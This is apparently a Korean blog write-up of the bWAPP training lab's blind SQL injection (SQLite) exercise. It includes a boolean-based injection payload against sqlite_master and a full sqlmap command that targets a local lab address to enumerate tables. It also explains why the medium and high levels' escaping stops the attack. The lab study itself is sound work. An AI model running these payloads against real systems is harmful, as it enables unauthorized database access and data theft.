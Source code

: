 ```yaml
---
layout: single
title: (bWAPP)SQL Injection - Blind (SQLite) (SQLMap)
categories: bwapp
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low

![그림 1-1](/assets/image/bwapp/injection/sqli-bilid-sqlitesqlmap/image.png)
- 앞서 실습한 일반적인 Boolean Based SQLI 이다.
- 하지만 DBMS가 SQLIte 라는 점을 유의해야한다.
- SQLIte의 경우 타 DBMS 와 다른 SQL 구문을 사용한다.

![그림 1-2](/assets/image/bwapp/injection/sqli-bilid-sqlitesqlmap/image-1.png)
- ‘(싱글쿼터) 입력시 Error 가 발생하는 것을 확인 할 수 있다.

![그림 1-3](/assets/image/bwapp/injection/sqli-bilid-sqlitesqlmap/image-2.png)
![그림 1-4](/assets/image/bwapp/injection/sqli-bilid-sqlitesqlmap/image-3.png)
- 참과 거짓에 따라 반환 값이 다르다.
- 일반적인 Boolean Based SQLI 이다.

```sql
' or 1=1 and length((select tbl_name from sqlite_master))=4--
```

![그림 1-5](/assets/image/bwapp/injection/sqli-bilid-sqlitesqlmap/image-4.png)
- SQLIte 문법에 맞게 현재 사용중인 테이블의 길이 값을 추출할 수 있다.
> 특정 우회기법이 존재 하지 않으므로, SQLMap 을 사용하여 빠르게 추출을 시도하였다.

```shell
sudo sqlmap -u 'http://192.168.146.133/bWAPP/sqli_14.php?title=&action=search' --cookie="PHPSESSID=96c12e3a77a8447a9e980c2825783943;security_level=0;BEEFHOOK=UhoQoFNoEivNNG7EheQSAIsf8yrWl2cCOaY1uXgrLizZDIE3F6QYDxbWZ3vLOnqtvLxBoUX7D3L6LmPP" --dbms=sqlite -p 'title' --threads=5 --level=5 --risk=3 --tables
```

![그림 1-6](/assets/image/bwapp/injection/sqli-bilid-sqlitesqlmap/image-5.png)
- sqlite의 경우  SQLMap 사용시 DBMS를 바로 지정 후 —tables를 통해 테이블을 바로 확인할 수 있다.
- 3개의 테이블을 확인하였으며 users 테이블에 대해 컬럼을 확인해 보았다.

- 이와같이 데이터추출까지 할 수 있다.


## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.

